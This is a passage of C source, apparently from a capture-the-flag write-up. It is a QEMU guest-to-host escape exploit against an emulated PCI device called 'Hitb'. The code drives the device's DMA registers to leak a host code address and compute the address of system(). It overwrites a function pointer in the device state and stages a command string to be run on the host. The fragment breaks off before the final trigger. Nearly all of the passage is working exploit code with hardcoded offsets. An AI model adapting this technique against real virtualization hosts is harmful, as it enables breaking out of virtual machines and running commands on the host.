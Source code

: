 ```c
    return phys;
}

int main()
{
    if((fd = open(filename, O_RDWR | O_SYNC)) == -1)
        PRINT_ERROR;
    //for dma read and write
    void *dma_addr = mmap(0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (dma_addr == (void *)-1)
        PRINT_ERROR;
    // lock the dma_addr from hw mem
    mlock(dma_addr, 0x1000);
    void *dma_phy_addr = (void *)virt2phys(dma_addr);


    //Step 1
    // leak code base
    //set dma.src
    pcimem_write(0x80, 'd', (uint64_t)(0x40000 + 0x1000));
    //set dma.dst
    pcimem_write(0x88, 'd', (uint64_t)dma_phy_addr);
    //set cnt
    pcimem_write(0x90, 'd', 8);
    //set cmd to write
    pcimem_write(0x98, 'd', 2 | 1);
    //wait for timer being triggered.
    sleep(1);
    uint64_t enc_address = *(uint64_t *)dma_addr;
    printf("enc_address (host vaddr) --> 0x%016lx\n", enc_address);
    uint64_t code_base = enc_address - 0x283DD0;
    uint64_t system_addr = code_base + 0x1FDB18;
    *(uint64_t *)dma_addr = system_addr;

    //Step 2
    //overwrite function pointer
    //set dma.src
    pcimem_write(0x80, 'd', (uint64_t)dma_phy_addr);
    //set dma.dst
    //.text:0000000000284120                 mov     rax, [rdi+0B70h] ; dst
    //.text:0000000000284127                 mov     edx, [hitb+0B78h] ; len
    //.text:000000000028412D                 xor     ecx, ecx        ; is_write
    //.text:000000000028412F                 sub     eax, 40000h
    //.text:0000000000284134                 lea     rbp, [rdi+rax+0BB8h]
    //.text:000000000028413C                 mov     rdi, [rdi+0B68h] ; addr
    //.text:0000000000284143                 mov     rsi, rbp        ; buf
    //.text:0000000000284146                 call    cpu_physical_memory_rw
    pcimem_write(0x88, 'd', (uint64_t)(0x40000 + 0x1000));
    //set cnt
    pcimem_write(0x90, 'd', 8);
    //set cmd read
    //read sys_addr to HitbState->enc function pointer
    pcimem_write(0x98, 'd', 1);
    sleep(1);

    //Step3
    //prepare a parameter for system and trigger it
    strcpy((char *)(dma_addr) + 0x10, "deepin-calculator");
    //set dma.src to the paddr of dma
    pcimem_write(0x80, 'd', (uint64_t)dma_phy_addr + 0x10);
    //set dma.dst to the buf of device Hitb
    pcimem_write(0x88, 'd', (uint64_t)(0x40000));
    //set cnt
```